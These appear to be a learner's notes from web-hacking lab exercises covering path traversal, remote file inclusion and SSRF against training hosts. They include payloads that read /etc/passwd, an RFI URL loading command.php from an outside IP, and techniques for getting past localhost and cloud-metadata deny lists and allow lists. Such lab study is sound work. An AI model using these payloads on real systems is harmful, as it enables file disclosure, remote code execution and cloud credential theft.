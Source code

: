 ```
bypass: ....//....//....//....//....//etc/passwd	# PHP filter only matches and replaces the first subset string "../"

------------------------------------------------------------------
Remote File Inclusion - RFI
- One requirement for RFI is that the allow_url_fopen option needs to be on which allow us to inject a malicious URL as input 
example: http://webapp.thm/index.php?lang=http://111.111.111.111/command.php



```

===============================================================================
```
# SSRF

- when a server talk to another server or a subdomain.
we change the request that a server made to another server, and instead of the original requested server, we query another server or subdomain.
In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string.
http://web.thm/stock?server=api&id=123
http://web.thm/stock?server=api.web.thm/api/user&x=&id=123	# &x=[empty string] stop the original query and send our query instead

find SSRF vuln:
When a full URL is used in a parameter in the address bar: http://web.thm/stock?sever=http://web.thm/store
A hidden field in a form:
A partial URL such as just the hostname: http://web.thm/stock?server=api
Or perhaps only the path of the URL: http://web.thm/form?dst=/form/contact

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

Deny list:
- A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern.
- localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
- in cloud 169.254.169.254, which contains metadata and is in deny list.An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

Allow list:
if only url that starts with https://website.thm are allowed: An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm.

x/../private
```
